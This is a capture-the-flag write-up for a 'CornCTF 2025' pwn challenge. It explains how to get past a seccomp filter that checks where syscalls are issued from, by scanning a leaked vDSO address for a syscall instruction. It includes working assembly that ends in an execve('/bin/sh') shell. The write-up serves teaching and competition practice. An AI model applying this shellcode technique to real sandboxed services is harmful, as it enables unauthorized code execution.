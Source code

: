 Solved by: Ub1k
writeup by: Ub1k
# Introduction

This is the first pwn challange in the CornCTF 2025.
Upon inspecting the binary we immediatly notice two things:

1) **The security mitigations are very relaxed**: the GOT is writable (Partial RELRO) and the code area is not position independent (No PIE) and as such is not randomized.
2) **The ELF is statically linked**: so we can exclude ret2libc and we have to ignore shenanigans with dynamic libraries this time.

![](./images/he_protecc-018.webp)

By executing the binary we are prompted to input the length of some shellcode followed by the code itself.

![[he_protecc-02.webp]]

It would definitely be too easy if we could execute a `execve("/bin/sh",null,null)`. 
Let's take a closer look at the binary to see what's really happening.
# Looking around
Disassembling the binary reveals an easy to read and understand code, let's look at the most important stuff.

![[he_protecc-013.png]]
## mmap my beloved

> [!info]
> **mmap**() creates a new mapping in the virtual address space of the calling process. In other words, it creates a new data area in a position and with permissions decided by the caller, it is used in dynamically loaded binaries and in some cases in heap allocation. 

The mmap call is easy to understand:
- New memory area is **mapped** at position `0x500000`.
- The **size** is `0x1000` bytes (one page or 4096 bytes).
- The p**ermission** parameter is `RWX`: `001 | 010 | 100 = 111 (7)` 

To understand the flags we can use `strace` and read the command from there:]

![[he_protecc-012.png]]

These two flags simply signal that the mapped region is private to our process and not mapped to any file, this means the area is initialized with zeroes.

A boring mmap region, nothing special here... sadly
## seccomp

I'm not going to show the full `setup_seccomp()` disassembly as it is a bit ugly, the important part comes at the end:

![](./images/he_protecc-014.webp)

The `prctl` call sets the NO_NEW_PRIVS flag, why?  It is a security measure to stop privilege escalation put before a seccomp filter ([explanation](https://unix.stackexchange.com/questions/562260/why-we-need-to-set-no-new-privs-while-before-calling-seccomp-mode-filter)).
The syscall sets a seccomp filter (317 = sys_seccomp) on the binary.

> [!info]
> As the name suggests, seccomp is a mechanism to harden syscall access by evaluating a small program called a Berkeley Packet Filter (BPF) for every syscall. Based on the result, the syscall is either allowed or denied.

So the questions becomes: What does the seccomp filter filter?
I was today years old when I learned that I don't need to manually decode seccomp filters... there exists a tool for that, thanks Marco. ([Github](https://github.com/david942j/seccomp-tools)): 

So by executing `seccomp-tools dump ./protected` we get:

```
 line  CODE  JT   JF     K
=================================
 0000: 0x20 0x00 0x00 0x00000008  A = instruction_pointer
 0001: 0x01 0x00 0x00 0x003fffff  X = 4194303 (0x3fffff)
 0002: 0x2d 0x00 0x0a 0x00000000  if (A <= X) goto 0013
 0003: 0x01 0x00 0x00 0x004b7fff  X = 4947967 (0x4b7fff)
 0004: 0x2d 0x00 0x07 0x00000000  if (A <= X) goto 0012
 0005: 0x01 0x00 0x00 0x004fffff  X = 5242879 (0x4fffff)
 0006: 0x2d 0x00 0x06 0x00000000  if (A <= X) goto 0013
 0007: 0x01 0x00 0x00 0x00500fff  X = 5246975 (0x500fff)
 0008: 0x2d 0x00 0x03 0x00000000  if (A <= X) goto 0012
 0009: 0x20 0x00 0x00 0x0000000c  A = instruction_pointer >> 32
 0010: 0x01 0x00 0x00 0x00007fff  X = 32767 (0x7fff)
 0011: 0x2d 0x00 0x01 0x00000000  if (A <= X) goto 0013
 0012: 0x06 0x00 0x00 0x80000000  return KILL_PROCESS
 0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW```
```

This is *not* a typical seccomp filter. Normally a seccomp filter checks the syscall number against a whitelist and returns if it is permitted or not, but here the filter loads the `RIP` at the moment of execution of the syscall and only returns ALLOW if the position is one of the following, else the process gets killed:

- Before `0x3FFFFF`: but thats not possible because the address space starts at `0x400000` 
- Between `0x4b7fff` and `0x4fffff`: but there are no syscalls in that region.
- Between `0x500fff` and `0x7fffffffffff`:  No syscalls in the mmap region :( BUT WAIT

So what can we find after `0x500fff` but before `0x7fffffffffff`?

![](./images/he_protecc-015.webp)

Looking at the mappings with `vmmap` we can see that only one mapping has read and execution permission, and that is `vdso`.

> [!info]
> **vDSO** (virtual dynamic shared object) is a kernel mechanism for exporting a carefully selected set of kernel space routines to user space applications so that applications can call these kernel space routines in-process, without incurring the performance penalty of a mode switch from user mode to kernel mode. ([Wikipedia](https://en.wikipedia.org/wiki/VDSO))

By piping the instructions found in that memory area into `grep` we can see a few syscall instruction inside `vdso`, jumping to them should give us the syscall we need!

![](./images/he_protecc-016.webp)
# Leak & Pwn

Here comes the problem, even if the ELF is not PIE, the stack and also `vdso` still get randomized by **ASLR**, even worse, the internal offsets also get randomized... But let's tackle the problem one after another:

## The Leak

Using `p2p stack vdso` we can see 4 leaks on the stack for **vdso**.

![](./images/he_protecc-017.webp)

## The Pwn

Now comes the difficult part, we can't calculate the offset between the syscalls and our leak because we cannot guarantee that the internal offsets are constant, we need to scan the memory area...

The first part is easy, let's take the leak and put it into a register:

```asm
mov r8, [rbp - 0x218]
```

Now let's scan the memory area:

```
loop:
inc r8
mov ax, word ptr [r8]
cmp ax, 0x050f
jne loop
```

This code snipped increases r8 (pointer to vdso leak) and take two bytes, it then check if bytes are equal to the one representing a syscall and if not it loops. If it exits the loop, r8 will point to a valid syscall instruction, and we can continue with setting the registers for a execve call.

```
mov r9, {u64(b"/bin/sh\0")}
push r9

mov rax, 59 
mov rdi, rsp
xor rsi, rsi
xor rdx, rdx

jmp r8
```

and boom, we have a shell.

